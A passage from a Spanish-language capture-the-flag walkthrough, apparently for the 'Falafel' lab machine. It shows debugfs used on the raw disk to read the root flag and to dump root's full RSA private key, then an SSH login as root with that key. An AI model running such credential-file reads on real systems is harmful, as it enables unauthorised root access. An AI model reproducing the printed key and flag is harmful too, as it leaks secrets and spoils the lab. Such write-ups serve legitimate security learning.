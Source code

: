 ```null
yossi@falafel:/$ debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
```

Puedo visualizar la segunda flag

```null
debugfs:  cat /root/root.txt
69ce499561cde33c720a5cebf76a8f2d
```

Para ganar acceso al sistema, me puedo traer la id_rsa

```null
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyPdlQuyVr/L4xXiDVK8lTn88k4zVEEfiRVQ1AWxQPOHY7q0h
b+Zd6WPVczObUnC+TaElpDXhf3gjLvjXvn7qGuZekNdB1aoWt5IKT90yz9vUx/gf
v22+b8XdCdzyXpJW0fAmEN+m5DAETxHDzPdNfpswwYpDX0gqLCZIuMC7Z8D8Wpkg
BWQ5RfpdFDWvIexRDfwj/Dx+tiIPGcYtkpQ/UihaDgF0gwj912Zc1N5+0sILX/Qd
UQ+ZywP/qj1FI+ki/kJcYsW/5JZcG20xS0QgNvUBGpr+MGh2urh4angLcqu5b/ZV
dmoHaOx/UOrNywkp486/SQtn30Er7SlM29/8PQIDAQABAoIBAQCGd5qmw/yIZU/1
eWSOpj6VHmee5q2tnhuVffmVgS7S/d8UHH3yDLcrseQhmBdGey+qa7fu/ypqCy2n
gVOCIBNuelQuIAnp+EwI+kuyEnSsRhBC2RANG1ZAHal/rvnxM4OqJ0ChK7TUnBhV
+7IClDqjCx39chEQUQ3+yoMAM91xVqztgWvl85Hh22IQgFnIu/ghav8Iqps/tuZ0
/YE1+vOouJPD894UEUH5+Bj+EvBJ8+pyXUCt7FQiidWQbSlfNLUWNdlBpwabk6Td
OnO+rf/vtYg+RQC+Y7zUpyLONYP+9S6WvJ/lqszXrYKRtlQg+8Pf7yhcOz/n7G08
kta/3DH1AoGBAO0itIeAiaeXTw5dmdza5xIDsx/c3DU+yi+6hDnV1KMTe3zK/yjG
UBLnBo6FpAJr0w0XNALbnm2RToX7OfqpVeQsAsHZTSfmo4fbQMY7nWMvSuXZV3lG
ahkTSKUnpk2/EVRQriFjlXuvBoBh0qLVhZIKqZBaavU6iaplPVz72VvLAoGBANj0
GcJ34ozu/XuhlXNVlm5ZQqHxHkiZrOU9aM7umQkGeM9vNFOwWYl6l9g4qMq7ArMr
5SmT+XoWQtK9dSHVNXr4XWRaH6aow/oazY05W/BgXRMxolVSHdNE23xuX9dlwMPB
f/y3ZeVpbREroPOx9rZpYiE76W1gZ67H6TV0HJcXAoGBAOdgCnd/8lAkcY2ZxIva
xsUr+PWo4O/O8SY6vdNUkWIAm2e7BdX6EZ0v75TWTp3SKR5HuobjVKSht9VAuGSc
HuNAEfykkwTQpFTlmEETX9CsD09PjmsVSmZnC2Wh10FaoYT8J7sKWItSzmwrhoM9
BVPmtWXU4zGdST+KAqKcVYubAoGAHR5GBs/IXFoHM3ywblZiZlUcmFegVOYrSmk/
k+Z6K7fupwip4UGeAtGtZ5vTK8KFzj5p93ag2T37ogVDn1LaZrLG9h0Sem/UPdEz
HW1BZbXJSDY1L3ZiAmUPgFfgDSze/mcOIoEK8AuCU/ejFpIgJsNmJEfCQKfbwp2a
M05uN+kCgYBq8iNfzNHK3qY+iaQNISQ657Qz0sPoMrzQ6gAmTNjNfWpU8tEHqrCP
NZTQDYCA31J/gKIl2BT8+ywQL50avvbxcXZEsy14ExVnaTpPQ9m2INlxz97YLxjZ
FEUbkAlzcvN/S3LJiFbnkQ7uJ0nPj4oPw1XBcmsQoBwPFOcCEvHSrg==
-----END RSA PRIVATE KEY-----
```

```null
ssh root@10.10.10.73 -i id_rsa
The authenticity of host '10.10.10.73 (10.10.10.73)' can't be established.
ED25519 key fingerprint is SHA256:HkqcmyRF5DsZuFTcQxQ4QcKq7eG+mQMn8MX9G5RkN5s.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.73' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Tue May  1 20:14:09 2018 from 10.10.14.4
root@falafel:~# 
```